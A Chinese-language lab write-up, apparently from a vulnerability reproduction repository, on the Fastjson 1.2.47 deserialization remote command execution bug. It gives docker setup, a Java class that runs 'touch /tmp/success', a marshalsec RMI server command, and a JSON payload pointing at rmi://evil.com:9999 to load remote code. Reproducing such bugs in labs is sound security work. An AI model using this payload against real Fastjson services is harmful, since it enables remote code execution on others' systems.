


# Fastjson 1.2.47 远程命令执行漏洞

Fastjson 是阿里巴巴公司开源的一款 JSON 解析器，其性能优越，被广泛应用于各大厂商的 Java 项目中。Fastjson 于 1.2.24 版本后增加了反序列化白名单，而在 1.2.48 以前的版本中，攻击者可以利用特殊构造的 JSON 字符串绕过白名单检测，成功执行任意命令。

参考链接：

- <https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955>
- <https://www.freebuf.com/vuls/208339.html>

## 环境搭建

执行如下命令启动一个 Spring Web 项目，其中使用 Fastjson 作为默认 JSON 解析器：

```shell
docker compose up -d
```

环境启动后，访问 `http://your-ip:8090` 即可看到一个 JSON 对象被返回。我们将 Content-Type 修改为 `application/json` 后可向其 POST 新的 JSON 对象，后端会使用 Fastjson 进行解析。

## 漏洞复现

目标环境是 `openjdk:8u102`，这个版本没有 `com.sun.jndi.rmi.object.trustURLCodebase` 的限制，我们可以简单利用 RMI 进行命令执行。

首先编译并上传命令执行代码，如 `http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后使用 [marshalsec](https://github.com/mbechler/marshalsec) 项目启动一个 RMI 服务器，监听 9999 端口，并指定加载远程类 `TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向目标服务器发送 Payload：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```



如下图所示，命令 `touch /tmp/success` 已成功执行：



更多利用方法请参考 JNDI 注入相关知识。
